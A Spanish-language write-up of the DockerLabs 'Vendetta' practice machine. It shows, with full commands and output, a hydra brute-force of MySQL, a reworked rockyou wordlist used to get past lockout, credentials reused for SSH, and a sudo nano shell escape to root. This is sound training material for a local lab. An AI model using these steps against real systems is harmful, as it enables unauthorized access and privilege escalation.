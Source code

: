 ```yaml
---
icon: flag
---
```


# Vendetta DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip vendetta.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh vendetta.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 13:10 EST
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:66:3d:c0:de:2c:1a:25:f8:fc:10:8a:5c:e9:d2:ba (ECDSA)
|_  256 45:89:84:f6:20:34:a6:7a:2e:1e:07:24:ac:ce:d0:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: V de Vendetta
3306/tcp open  mysql   MySQL 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
|   Thread ID: 35
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, InteractiveClient, Support41Auth, DontAllowDatabaseTableColumn, FoundRows, LongColumnFlag, Speaks41ProtocolNew, ODBCClient, SupportsTransactions, SupportsLoadDataLocal, SupportsCompression, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: O~LBChd=Ao/9nA:?l#g`
|_  Auth Plugin Name: mysql_native_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.02 seconds
```

Vemos una pagina aparentemente normal, pero si la inspeccionamos, veremos lo siguiente:

```html
 <p class="about__text"><strong>V</strong>isible pero a la Vez oculto.</p>
```

Vemos que hay una `V` oculta, por lo que probaremos a utilizarlo como nombre de usuario en la `Base de datos` de `MySQL` que tenemos como puerto, ya que por `SSH` no nos dara nada.

## Hydra

```shell
hydra -l V -P <WORDLIST> mysql://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-27 13:13:21
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://172.17.0.2:3306/
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
```

Vemos que pasado un rato nos bloquea, por lo que veremos que por dentro habra algun mecanismo de bloque.

Por lo que vamos ha modificar un poco el diccionario de `rockyou.txt` de la siguiente forma, primero le daremos la vuelta al diccionario.

```shell
tac /usr/share/wordlists/rockyou.txt > reverseRockyou.txt
```

Y ahora quitaremos todos los numeros que no nos van a servir.

```shell
cat reverseRockyou.txt | tr -cd '[:alnum:]\n' > reverseRockyouClear.txt
```

Echo esto, volveremos a lanzar el ataque.

```shell
hydra -l V -P reverseRockyouClear.txt mysql://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-27 13:19:25
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14338619 login tries (l:1/p:14338619), ~3584655 tries per task
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: V   password: ie168
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-27 13:19:27
```

Y vemos que tendremos unas credenciales de `mysql`, por lo que nos meteremos de la siguiente forma.

## Escalate user Vendetta

### MYSQL

```shell
mysql -h <IP> -u V -pie168 --ssl=0
```

Y con esto estaremos dentro como dicho usuario.

Ahora vamos a investigar si encontramos algunas credenciales.

```sql
show databases;
```

Info:

```
+--------------------+
| Database           |
+--------------------+
| BTN                |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)
```

Vemos que la unica base de datos que no se crea de forma automatica es la llamada `BTN`:

```sql
show tables;
```

Info:

```
+---------------+
| Tables_in_BTN |
+---------------+
| users         |
+---------------+
1 row in set (0.000 sec)
```

Vamos a ver que contiene dicha tabla de la siguiente forma:

```sql
select * from users;
```

Info:

```
+----+----------+-----------+
| id | user     | password  |
+----+----------+-----------+
|  1 | Vendetta | OldBailey |
+----+----------+-----------+
1 row in set (0.000 sec)
```

Vemos que hemos obtenido las credenciales del usuario `Vendetta`, por lo que haremos lo siguiente:

### SSH

```shell
ssh Vendetta@<IP>
```

Metemos como contraseña `OldBailey` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for Vendetta on eb0db362fd97:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Vendetta may run the following commands on eb0db362fd97:
    (ALL) NOPASSWD: /usr/bin/nano
```

Vemos que podemos ejecutar el binario `nano` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo nano
^R^X
reset; bash 1>&0 2>&0
```

Info:

```
root@eb0db362fd97:/home/Vendetta# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
